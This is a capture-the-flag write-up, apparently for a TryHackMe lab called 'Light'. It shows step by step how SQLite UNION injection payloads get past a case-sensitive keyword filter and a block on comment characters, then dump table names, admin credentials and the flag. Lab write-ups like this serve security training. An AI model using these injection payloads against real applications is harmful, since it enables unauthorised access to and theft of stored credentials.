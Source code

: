 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Catch the flags.
## Scenario

I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE_IP 1337`  
You can use the username `smokey` in order to get started.
# Exploit
## NetCat

First we use [[Netcat]] to connect :

```Kali
└─$ nc 10.10.29.76 1337
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: 
```

we try some special characters to see if there are any filters.

```
Please enter your username: ,.<>/?;:'"\-%*
Error: unrecognized token: ""\-%*' LIMIT 30"
```

We see that any characters after **‘** are thrown in the error message in addition to the command **LIMIT 30**. LIMIT 30 gives us a clue that this database is running a flavour of [[SQL]]. The command is meant to limit the output to 30 records.

With the above error message, we can have a sense of what the SQL query code is like:

`SELECT password FROM <TABLE_NAME> WHERE username = '<USER_INPUT>' LIMIT 30`

## SQL injection

Trying a common [[SQL Injection]] code:

```
Please enter your username: ' OR '1' = '1' --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

```

We notice the ways of commenting in SQL are being filtered/blocked. Modifying the code a bit:

```
Please enter your username: ' OR '1' = '1
Password: tF8tj2o94WE4LKC

```

This is analogous to : `SELECT password FROM <TABLE_NAME> WHERE username = '' OR '1' = '1' LIMIT 30`

We get a response with no error message which shows that an SQL injection is possible. However, at this point, we do not know what flavour of SQL is running. It could be MySQL, SQLite, Postgres, etc. Each SQL engine has its own way of listing tables in the database therefore, it is crucial that the flavour of SQL used be enumerated.

The application also blocks and filters SQL commands such as **SELECT** or **UNION**. However, we can bypass this filter by simply randomizing the capitalization of the commands (e.g. SeLeCT or UniOn).

The input below was successful in determining the SQL version. The SQL flavour running is SQLite.

```
Please enter your username: 1' uNion SeLeCt sqlite_version() '1
Password: 3.31.1

```

Next, we need to know the SQL table to use in our query. To do this, we need to list out all tables in the current database. Using this SQL query:

```
Please enter your username: 1' uNion SeLeCt name FROM sqlite_master '1
Password: admintable

```

We see that there is a table called admintable. We can then query this table for the username column for the admin username via the SQL query:

```
Please enter your username: 1' uNion SeLeCt username from admintable '1
Password: TryHackMeAdmin
```

and we have the username : **TryHackMeAdmin**  ; now just change the column to query to password with a filter of username :

```
Please enter your username: 1' uNion SeLeCt password from admintable where username = 'TryHackMeAdmin
Password: mamZtAuMlrsEy5bp6q17

```

Last but not least, we need to find the flag. You can find the flag by querying for the password but using no filters. The SQL query to be used:

`' uNiOn SeLeCt password FROM {REDACTED_TABLE} WHERE username LIKE 'flag`
